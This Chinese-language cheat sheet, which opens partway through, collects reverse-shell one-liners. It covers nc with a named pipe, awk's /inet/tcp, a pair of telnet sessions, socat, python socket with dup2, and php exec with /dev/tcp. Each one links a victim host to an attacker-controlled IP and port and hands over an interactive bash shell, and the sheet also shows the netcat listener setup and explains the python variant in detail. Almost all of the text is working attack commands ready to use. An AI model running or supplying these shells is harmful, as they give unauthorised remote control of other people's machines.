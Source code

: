     
    #不使用-e
    mknod /tmp/backpipe p /bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe			
    ```


**awk反弹**

- AWK 是一种处理文本文件的语言,是一个强大的文本分析工具。

    ```
    awk 'BEGIN{s="/inet/tcp/0/[攻击者ip]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'s
    ```

    

**telnet反弹**

- 要在攻击主机上分别监听两个端口，执行反弹shell命令后，在其中一个端口终端输入命令，另一个端口查看命令执行后的结果。


- 
    攻击机：


```bash
nc -nvlp [port1]    #监听输入命令端口
nc -nvlp [port2]    #监听输出命令端口
```

- 
    靶机：


```bash
telnet [攻击机ip] [port1] | /bin/bash | telnet [攻击机ip] [port2]
```

**socat反弹**

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[攻击机ip]:[port]
```

**python反弹**

~~~bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.239.128',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

#首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。
~~~

**php反弹**

- **前提**：php需要关闭safe_mode选项，才能使用php的exec函数执行反弹shell的命令。

~~~bash
php -r 'exec("/usr/bin/bash -i >& /dev/tcp/[攻击机ip]/[port] 0>&1");'
有时变形为
php -r '$sock=fsockopen("[攻击机ip]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~
